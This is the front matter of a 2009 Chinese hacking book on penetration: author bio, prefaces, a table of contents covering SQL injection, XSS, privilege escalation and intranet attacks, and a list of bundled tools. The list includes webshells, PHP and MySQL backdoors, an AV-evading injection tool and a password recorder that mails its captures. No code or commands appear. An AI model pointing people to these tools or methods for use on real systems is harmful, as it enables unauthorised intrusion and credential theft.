# 黑客渗透笔记

作者：冰的原点

（正文内容较模糊，无法完整辨识）

（正文内容较模糊，无法完整辨识）

非安全·黑客宇宙出品


## 作者简介

张开华，网名：冰的原点，2006年9月开始接触网络，并对网络安全产生了浓厚的兴趣而开始自学。现在湖北武汉求学，专心研究PHP脚本。虽然学的不是计算机专业，但大学几年里一直都在关注网络安全。


| 项目 | 内容 |
|---|---|
| 出品人 | 非安全 |
| 作者 | 张开华（冰的原点） |
| 编辑 | Python LCX、空气、浪迹天涯、眼镜猴 |
| 特约编辑 | 风飘雨、小迷、XApache、张宇、冰的原点 |
| 平面规划 | 陈黎黎 |
| 网站 | www.nohack.cn |
| 网站编程 | 空气、Cass |
| 版权声明 | 图文版权所有，未经同意，不得转载。 |
| 投稿信箱 | nohack@21cn.com |
| 邮购查询 | hope_wym@sina.com |
| 光盘信箱 | CD@nohack.cn |
| 在线商城 | book.nohack.cn |
| 淘宝 | taobao.nohack.cn |
| 拍拍 | paipai.nohack.cn |

投稿信箱：nohack@21cn.com



## 简介

本书的内容在写的过程中尽量避免了那些多余的理论，更注重实际的操作和细节问题。为了照顾菜鸟和一些已经起步的读者，本书也从各个角度、不同的深度去看待一些问题。

如第一章就简单地介绍了一些术语名词的意义；第二章虽然是写弱口令的，如果你仔细地读，会发现里面的精彩内容也是令人期待的，同一个问题不同的手法；第三章讲到的则是大名鼎鼎的MSF的简单利用；第四章则是本书的重头戏，基本上现行网络上的各种攻击技术都已网罗其中，并且不乏新的攻击手法和思维；第五章则不忘把XSS单成一节以让大家了解其严重的危害性；第六章除了简单地讲解如何利用搜索引擎外，还讲述了如何利用人性的弱点去攻击对方，这里可是实战的例子哦；第七章则很明显的是大家都很关注的问题，权限和内网，除了常规思路的讲解外，还有新方法和新思路等重头戏……

我这么说你也许体会不到其中的具体内容，恐怕除了读者自己本身仔细去阅读其中的细节并在实践中慢慢体会外，我也无法把知识灌注到你的头脑中并变成你自己的东西。

当然，这本书的缺点也是很明显的，没有涉及到*nix下的内容。除此之外，我也无法保证本书中的技术都是最新的，但起码写书的时候是比较新的，技术是一直进步和更新的，你我不都是一直在追逐着吗？


## L.CX 代为序


“冰的原点”写了一本书《黑客渗透笔记》，让我来作跋，我感到非常高兴，为人写序也是我的第一次。我和“冰的原点”同是《非安全》的线上编辑，虽然算是同事，却素未谋面，也没有深聊过。这样也好，可以让我对此书有一个公正的评价。

写序前我和《非安全》的主编“土豆”聊了一下，问“冰的原点”是怎样性格的一个人。他说，是一个大学生，性格温和，应当还没有定性。我又和作者本人聊了一会，知道“冰的原点”快毕业了，岁数很小，今年只有21岁。聊天的时候，他推荐许巍的《蓝莲花》给我听。

> “没有什么能够阻挡 / 你对自由的向往 / 天马行空的生涯 / 你的心了无牵挂”，多好的歌词，简单利索，赤条条的抒情。“穿过幽暗的岁月 / 也曾感到彷徨 / 当你低头的瞬间 / 才发觉脚下的路”，多么写意的表达，熨帖，恰到好处地书写了我们青春的无奈、执着与隐忍。我认为喜欢许巍的人是温暖的，这样的一个人写了一本怎样的书呢？

从作者的角度来看，这是一本总结现阶段自己技术、提高自己水平和能力的书，也是对大学生涯学习黑客技术的一个总结和交待。“冰的原点”有一个好习惯，会用文档记录自己在学习黑客技术和动手实践过程中的细节以及思考。

我在写这篇序前，他发了几篇他日常的笔记给我，像《mssql 2005 注入笔记》、《union注入技巧》、《议opendatasource》等，每篇笔记都提出了自己的思考，不仅有独到的技术创新，并且勇于纠正网上谬传的一些认知，读起来让人眼前一亮。当然，这些日常的笔记，作者已经把它融会贯通在这本书里了。

从黑客图书的层面来看，这是一本关于渗透的书。黑客图书现在有很多，专注的技术层面也有所不同，但是关注渗透的书较少，特别是总结了现阶段流行渗透技术的书更少。因为现在的渗透技术很杂，入侵手段也极其丰富，如果要网罗所有，这是一个极其庞大的工程。

“冰的原点”勇于做了这样的尝试，虽然不能概括，但是毕竟把现在的流行入侵手法已经基本收录于此书中了。这对安全行业的渗透人员来说，是一个利好的消息，可以把此书作为一个手册，一个工具书，放在案头随手翻阅，按章索骥，补充自己的不足或是提出批评异议，对自己是非常有帮助的。

从读者的角度来看，这是一本值得购买的书。经常有一些读者有兴趣学习黑客技术，却碰到了如何盗QQ这样下三滥的手法，或是高深莫测讲TCP/IP协议这样云里雾里的技术，相信部分人的热情会降到冰点。

这本书，注重在入侵的方法上，而且是流行的入侵方法，所以有兴趣学习黑客技术的人会较快上手，网络实践成功率也会不错，这样学起来就事半功倍，有一种成就感在心中。简而言之，这也是一本激发你热情学习技术的书。

从市场的角度来看，我不确定这是否是一本受欢迎的书。因为作者写书的目的，是在埋头做自己的一件事，是让自己成长的一件事，他并没有媚俗地去迎合市场来急就一本书。不过我相信，这样用心来写出的一本书，定是物超所值，是会受到大家欢迎的，恶心吹捧的话我就此打住。

从我的角度来看，这是一本体会入侵细节的书。千里之堤溃于蚁穴，细节往往决定成败。这本书解决了一些网上没有解决或没有提到的问题，如pcanywhere连上去还需要win密码的情况下如何提权，如何通过access注入没有注入点的mssql等等。很多让人眼前一亮的小细节、小技巧在此书中都有体现。

当然，此书也有一些缺点，对*nix的入侵提得较少。另外，由于过多重视了细节，对整体入侵思路流程的划分我不是太满意，当然我相信每个人都有自己的入侵流程图，这本书的每个章节就是补充你整个流程图中需要连起来或增加的点。

我在写这篇序的时间中，一直在听《蓝莲花》，希望带给我一些柔软的情绪，不会让我写的序变得刻意和生硬。许巍那沧桑、坚定、沙哑、浑浊而清晰的嗓音纵情地唱响时，吻合了我们内心最深处的那一丝柔弱和刚强。不知是否会安放作者那无处安放的青春，也许去书里的字里行间会找到答案。



lcx

2009年4月3号 02:25

## 前言

一直以来，我以为只要有激情与梦想就会达到我想要的目标。而在经历了写书这个过程以后，我才发现自己曾经的想法是多么的幼稚。有多少人没有感到过彷徨？有多少人没有感到过迷茫？什么时候才能出现欢笑？什么时候会蜕变？……我想，每一个从开始接触这一行的人都有过这些感触，有时候自己折腾好长时间才弄明白的问题，换来的却是别人的嗤之以鼻；有时满怀期待地向他人请教问题，得到的却是一个冷清的空白……

我也是菜鸟，目前和以后都是菜鸟。而当你懂得越多的时候你就会发现自己更多的无知，这，就是我在写这本书时的最大感受。快乐、坚韧、温暖，这些和性格有关的因素即使我们不具备，但我们可以忠诚、勤奋、乐观，这样一路走来，你才可以发现你的人生都是充满着阳光，而不是黑暗。

不要急躁，你的急躁不安就只能表现出你的浮躁，你应该相信我们都很敬佩的人，如李开复、GOOGLE的创始人、马云……他们在处理问题的时候总是气定神闲。

不要欺骗，你的欺骗只能代表你的无知和良心的泯没，你应该相信，这个世界还是有好人的，你也应该相信，多一个朋友就多一个机会，是友情演绎了一个又一个奇迹。

不要迷茫，迷茫得越久你就会越不知所措，偶尔看一下你回头走过的路，重新审视一下以前犯过的错误并引以为戒，都有助于你向正确的方向前进，你应该相信自己的力量。

我接触这一行不算深，也有好多人年纪比我小，技术却比我厉害得多，这就是事实。是的，相对来说，这是一个不公平的事实。你会怎么办？是愤怒还是抱怨？是叹气还是不服？这不是技术问题，但一样为难着许多人。我相信，如果能够坦然面对并以之为前进动力的人，那应该是一个处理问题比较优秀的人，是一个以后能有所作为的人。

我不想去用文字来描述我的这本书是如何如何的好，在我看来，只要你能从我这本书中学到一点知识，哪怕是一点点，不管是技术上的还是做人方面的，我都会感到欣慰。

这本书花了我不少的时间和精力，而通过这本书，我也从中学到了不少的知识。当然，这少不了许多对我有所帮助和支持的人，在这里感谢我的父母、我的表哥、我的女友在我写书的过程中对我的鼎力支持和关心。当然，还有一些未曾谋面对我同样有着帮助的人，他们是：土豆大叔、小志、&&随风而去&&、Lenk、Mickey、simeon、杨过也上网、B100d5w0rd、oldjun、小熊猪、lcx、MIAO、BlackSdk、Flyh4t、冷焰、小帅、落叶、cnbird、zz、sai52、trace、皇子、纯色Pur3c0|0。特别是随风和小志，在和他们讨论技术问题的时候总是会很耐心地指导我，这让我很佩服。还有很多朋友，那些我认识的和认识我的，那些曾经鼓励我的和伤害我的，那些曾经的曾经……感谢你们，是你们的支持和激励才让我不断地前行……

> 作为一个技术追求者，只要有颗炽热的心，就没有什么能够阻挡你对天马行空的向往。最后，把土豆大叔曾经的一段刊首语放在前言的末尾：

“当记得，黑客的原意好像是指那些对计算机执着钻研，擅长研究系统缺陷的狂热者。但现在黑客的原意已被雨打风吹去，我们那一撮还死死抱着‘自由，共享，交流，钻研’的朋友们，你们今天还好吗？当为着这些原生态的黑客精神而热泪盈眶时，当为理想信念而执着奋斗时，当梦想还在支撑着你寂寂默默地前行时，你是否有所察觉，美丽而纯粹的黑客世界在你身后行将崩塌。不让生活磨灭我们的个性，是对自己精神价值的鼓舞，还是现实生活中苍白无奈的呐喊？当铅华荡尽，泡沫破灭，蓦然回首，你是否感叹在生命中曾经有过一段无悔的激情岁月。”

冰的原点


## 笔记 001 档案：入侵前的导航



- 1.1 基础术语的了解 ................................ 18
- 1.2 服务器相关特性 ................................ 22
- 1.2.1 Windows 下的解析特性 ........................ 22
- 1.2.2 Windows 对 ../ 的支持 ....................... 22
- 1.2.3 Windows 对空格和.的忽略 ..................... 23
- 1.2.4 Apache 的解析问题 ............................ 23
- 1.2.5 不同系统对大小写的敏感问题 .................. 23
- 1.2.6 实例解析 .................................... 24

## 笔记 002 档案：弱口令攻击及其它



- 2.1 共享入侵——IPCS .............................. 28
- 2.2 目录浏览 ...................................... 29
- 2.3 IIS 写权限漏洞 ................................ 31
- 2.4 暴库 .......................................... 35
- 2.4.1 %5c 暴库 .................................... 35
- 2.4.2 CONN.ASP 暴库 ............................... 36
- 2.4.3 暴库的防范 .................................. 36
- 2.5 弱口令攻击 .................................... 37
- 2.5.1 FTP 弱口令 .................................. 37
- 2.5.2 基于 MSSQL 弱口令的入侵 ..................... 41
- 2.5.3 基于 MySQL 弱口令的入侵 ..................... 47
- 2.5.4 基于 oracle 弱口令的入侵 .................... 51
- 2.5.6 tomcat 弱口令的入侵 ........................ 58
- 2.5.7 第三方管理工具 radmin 和 VNC 弱口令入侵 ..... 62

## 笔记 003 档案：犀利的溢出攻击

067

- 3.1 内存溢出 …… 68
- 3.2 缓冲区溢出 …… 69
- 3.2.1 本地溢出 …… 69
- 3.2.2 远程溢出 …… 70
- 3.2.3 metasploit 工具的使用 …… 71
- 3.3 exploit 杂谈 …… 76

## 笔记 004 档案：流行的 Web 入侵方式

078

- 4.1 初窥脚本工具 …… 79
- 4.1.1 扫描工具 …… 79
- 4.1.2 注入工具 …… 83
- 4.1.3 数据库类的工具 …… 88
- 4.1.4 综合检测类工具 …… 90
- 4.1.5 远控软件 …… 92
- 4.2 整站系统的利用 …… 95
- 4.3 各类编辑器的入侵及下载程序在入侵中的作用 …… 97
- 4.3.1 eWebeditor 漏洞串烧 …… 97
- 4.3.2 fckeditor 漏洞一览 …… 105
- 4.3.3 不要忘了 cuteeditor …… 107
- 4.3.4 其它编辑器总结 …… 108
- 4.3.5 下载工具在渗透中的应用 …… 109
- 4.4 Google 大杀器 …… 112
- 4.4.1 基本语法 …… 112
- 4.4.2 高级语法 …… 114
- 4.4.3 实战应用 …… 118
- 4.5 小奏凯歌 …… 125
- 4.5.1 针对 access 数据库的攻击 …… 125
- 4.5.2 针对 MSSQL 数据库的攻击 …… 148
- 4.5.2.1 针对有错误回显的 2000 数据库的攻击 …… 149
- 4.5.2.2 针对无错误回显 mssql 2000 数据库的攻击 …… 173
- 4.5.2.3 针对错误回显的 mssql 2005 数据库的攻击 …… 174
- 4.5.3 针对 mysql 数据库的攻击 …… 178
- 4.5.3.1 路径泄露 …… 178
- 4.5.3.2 本地/远程文件包含漏洞 …… 179
- 4.5.3.3 文件访问权限验证不严 …… 181
- 4.5.3.4 上传漏洞 …… 181
- 4.5.3.5 install 文件的风险 …… 182
- 4.5.3.6 random 函数的缺陷 …… 182
- 4.5.3.7 变量覆盖及变量未初始化漏洞 …… 182
- 4.5.3.8 直接写文件 …… 183
- 4.5.3.9 直接执行系统命令 …… 184
- 4.5.3.10 注入攻击 …… 184
- 4.5.4 针对 oracle 数据库的攻击 …… 195
- 4.5.4.1 中间件漏洞一览 …… 195
- 4.5.4.2 JSP 漏洞一览 …… 199
- 4.5.4.3 注入攻击 …… 199
- 4.6 剑走偏锋——灵巧的旁注 …… 208


## 笔记 005 档案：恐怖的臆想——XSS 攻击及其延伸

- 5.1 XSS 产生与分析的理论基础 …… 213
- 5.1.1 XSS 的发展概况 …… 213
- 5.1.2 XSS 的存在价值 …… 213
- 5.1.3 XSS 产生的环境及影响 …… 213
- 5.2 WEB 环境中 XSS 问题的发掘 …… 214
- 5.2.1 HTML 常用代码的属性了解 …… 214
- 5.2.2 Dom-based 类型及背景 …… 214
- 5.2.3 脚本语言代码的使用及变形探讨 …… 215
- 5.3 如何利用 XSS …… 216
- 5.3.1 对入库型 XSS 分析 …… 216
- 5.3.2 对非入库型 XSS 的分析 …… 222
- 5.3.3 上传型 XSS 的分析 …… 225
- 5.4 总结 …… 228

## 笔记 006 档案：就在身边——社会工程学

- 6.1 间接渗透 …… 230
- 6.1.1 社工入侵案例 …… 231
- 6.2 直接接触 …… 234


## 笔记 007 档案：巅峰时刻——权限的较量

- 7.1 提权概览 …… 237
- 7.1.1 serv-u 提权 …… 237
- 7.1.2 pcanywhere 提权 …… 237
- 7.1.3 通过 MSSQL 提权 …… 239
- 7.1.4 通过 MYSQL 提权 …… 239
- 7.1.5 利用 radmin 提权 …… 240
- 7.1.6 VNC 提权 …… 240
- 7.1.7 NC 反弹 …… 241
- 7.1.8 JSP、PHP 及 ASP.NET 脚本 …… 241
- 7.1.9 替换服务 …… 244
- 7.1.10 autorun.inf 提权 …… 245
- 7.1.11 溢出提权 …… 245

- 7.1.12 flashxp、leapftp 提权 …… 245  
- 7.1.13 G6ftp 提权 …… 246  
- 7.1.14 sniffer 提权 …… 247  
- 7.1.15 社工提权 …… 248  
- 7.1.16 提权中注意到的细节 …… 248  
- 7.2 内网渗透 …… 250  
- 7.2.1 信息收集 …… 251  
- 7.2.2 提取系统 hash …… 252  
- 7.2.3 进攻内网 …… 254  
- 7.2.4 细节问题的处理 …… 256



### 歌曲《蓝莲花》- 许巍

## 工具软件

没有什么能够阻挡  
你对自由的向往  
天马行空的生涯  
你的心了无牵挂

穿过幽暗的岁月  
也曾感到彷徨  
当你低头的瞬间  
才发觉脚下的路

心中那自由的世界  
如此的清澈高远  
盛开着永不凋零  
蓝莲花



- 1.aspx
- 1.php
- 12.aspx
- 2.aspx
- asp.net 一句话
- ASPWebPack1.2 带进度显示的打包网站用 ASP 程序
- Cgi 木马
- config.jsp
- dama.asp
- DarkBlade.asp
- debug.php
- diy.asp
- haiyangtop-eval
- job.war
- kj.jsp
- lanker 微型 PHP 后门正式版
- phpspy2008
- sql2005back.php

### 扫描类

- su.php
- temp.aspx
- udf.php
- udf 提权命令.txt
- wrsky.asp

### 数据库类

- SQL 查询分析器分离版本
- SQLTools
- NGSSQuirreLForSQLServer_Eval
- MSSQL 连接器
- MSSQL_UP
- DominoScanⅡ_Eval
- Acunetix Web Vulnerability Scanner
- fluxay5beta
- hscan120
- jsky
- orabrute.exe
- oracle_checkpwd_big
- oscanner_bin_1_0_0
- scan4899
- sidguess
- Spider
- vnccrack-win32-1.21
- wwwscan
- X-Scan-v3.3-cn
- superscan4
- MS06-040.Scanner
- iiswrite
- nmap-4.85BETA3-setup
- tomcat 扫描

### 脚本

- ASPX 暴绝对路径的工具
- bsqlbf-v2.2
- HDIS3[1].0
- load_file 超速辅助工具
- MarathonTool
- MySQLi Dumper
- nbsi3.0xiaolu
- pangolin_bin1.3.1
- shellinjection
- sqlmap-0.6.4
- sql_2005_inj_new
- 微软出品的 asp 注射漏洞分析工具
- 明小子 3.5 免杀版
- 桂林老兵网站上传利用工具最新版
- 程序系统类（Web）
- 阿D-SQL 注射 2.3
- PHP 注入
- GetWebShell
- 桂林老兵 cookie 欺骗工具

### 溢出

- iMail 扫描
- MS08_067 溢出工具
- framework-3.2
- ms08025 溢出工具


## 杂七杂八

### 3389 终端密码破解器

- adduser
- aio
- appserv-win32-2.5.9
- Cain
- eweb
- hd
- hijack
- .htran
- hydra-5.4-win
- jsp 票源码
- Linx Oracle 自动攻击器
- md5crake_V4
- msn 记录查看器
- Office Password Remover 汉化版
- rainbowcrack-1.3-win
- reDuhClient-0.3
- sethc.reg
- WebCrack4
- websniff1.0
- winsock
- wrsky
- 小旋风服务器
- 社会工程学字典
- 记录 3389 密码发信版
- 读 rdp3389 密码的工具
- HexWorkshop
- ASCII 及十六进制转换工具
- ophcrack-win32-installer-3.1.0
- SAMInside
- 多功能数据库浏览器
- 小葵字符转换
- 注入中转
- mysql backdoor

## 参考文献

- Wiley The Database Hacker's Hand-book—Defending Database Servers
- Google Hacks 第2版.pdf
- 黑客大曝光：网络安全机密与解决方案—第五版 (Network Security Secrets Solutions Hacking Exposed)

## 非安全·黑客手册 全国代理商电话

| 城市 | 电话 |
|---|---|
| 北京 | 65934375 / 65073229 / 65850057 |
| 南宁 | 2615676 |
| 柳州 | 3118816 |
| 南通 | 85501751 |
| 本溪 | 3882485 |
| 宁波 | 87660206 |
| 青岛 | 8384881 |
| 沈阳 | 23842760 |
| 太原 | 7041968 |
| 唐山 | 2810045 |
| 天津 | 27697711 |
| 邢台 | 3090234 |
| 宜昌 | 6443827 |
| 威海 | 5202057 |
| 昆明 | 4168505 / 4125008 |
| 南昌 | 8522285 / 8591995 |
| 芜湖 | 3119006 / 3121316 |
| 蚌埠 | 3028542 / 3028028 |
| 阜阳 | 2271183 / 2233944 |
| 贵阳 | 5984895 / 6819938 |
| 合肥 | 2611465 / 7139358 |
| 吉林 | 6959591 / 6959592 |
| 银川 | 6024121 / 6024322 |
| 铁岭 | 4840742 / 2652412 |
| 邯郸 | 3090822 / 7672216 |
| 包头 | 4138751 / 2516902 |
| 苏州 | 65188163 / 65185868 |
| 深圳 | 82264081 / 25925914 |
| 大连 | 84600173 / 83898946 |
| 重庆 | 67051607 / 67051833 |
| 佳木斯 | 8220728 / 8061162 |
| 连云港 | 82887021 / 85503168 |
| 营口 | 3551160 |
| 鞍山 | 2218341 |
| 保定 | 2038408 |
| 沧州 | 3015380 |
| 长春 | 82700526 |
| 常州 | 88105882 |
| 大同 | 2021603 |
| 桂林 | 2859586 |
| 武汉 | 85493562 |
| 杭州 | 88256366 |
| 衡水 | 7902322 |
| 济南 | 82903395 |
| 淮南 | 6314707 |
| 胶州 | 87219723 |
| 兰州 | 8514919 |
| 锦州 | 2333291 |
| 西安 | 82100804 |
| 淄博 | 2150683 |
| 上海 | 63780159 |
| 郑州 | 67647276 |
| 烟台 | 6260748 |
| 徐州 | 83777678 |
| 长沙 | 6562796 |
| 任丘 | 2254900 |
| 福州 | 13960788097 |
| 秦皇岛 | 3691263 |
| 张家口 | 2068200 |
| 哈尔滨 | 88342321 |
| 石家庄 | 83029157 |
| 乌鲁木齐 | 5589830 |
| 齐齐哈尔 | 2683430 |
| 常德/衡阳 | 7389148 |
| 海口 | 66217820 |
| 周口 | 6083289 |
| 朝阳 | 2622618 |
| 太原 | 6320827 |
| 淮安 | 83942865 |
| 成都 | 89935872 |
| 无锡 | 82727773 |
| 厦门 | 5095042 |
| 武汉 | 87372806 |
| 泰安 | 8224897 |
| 泰安 | 8337513 |
| 菏泽 | 8258792 |
| 莱西 | 86647301 |
| 南京 | 83328998 |
| 温州 | 86056785 |
| 阜新 | 3315222 |
| 广州 | 34296413 |

### THANKS 赞助鸣谢

在本书的编辑和宣传过程中，得到了很多朋友的鼓励和帮助，出乎我意料之外的是，除了我主动让一些朋友做宣传外，另外那些认识我的朋友也在主动为我做广告，真的很感谢你们。虽然不能一一把你们的名字都写在这张纸上，但你们的帮助我都会记在心里。在这里也通过本书将帮助过我的朋友介绍给各位读者，希望大家多多交流，能够为网络攻防技术的提升贡献自己的一份力量。再次对所有的兄弟朋友说一声谢谢！

- bin-blog：http://rootkit.net.cn/
- cnbird：http://blog.csdn.net/cnbird2008/archive/2009/05/20/4204756.aspx
- 残存：http://huaidan.org/archives/3102.html
- 冷焰：http://www.lenqmo.net/post/1337/
- 郭八：http://forum.eviloctal.com/thread-35501-1-1.html
- 零客：http://0kee.com/read.php?tid=959.html
- SLENK：http://www.slenk.net/viewthread.php?tid=4137&extra=page%3D1
- 红狼：http://www.crst.com.cn/forum/viewthread.php?tid=7368&extra=page%3D1
- 影子大牛：http://hi.baidu.com/p3rlish/blog/item/d40c2d51b5e44210377abe7a.html
- MIAO：http://www.mhack.cn/?p=664
- 消失再消失：http://www.hackerchina.cn/?action=show&id=262
- dream：http://www.dreamwq.net/read.php?32
- 樱花浪子：http://www.hacklu.net/blog/read.php/755.htm
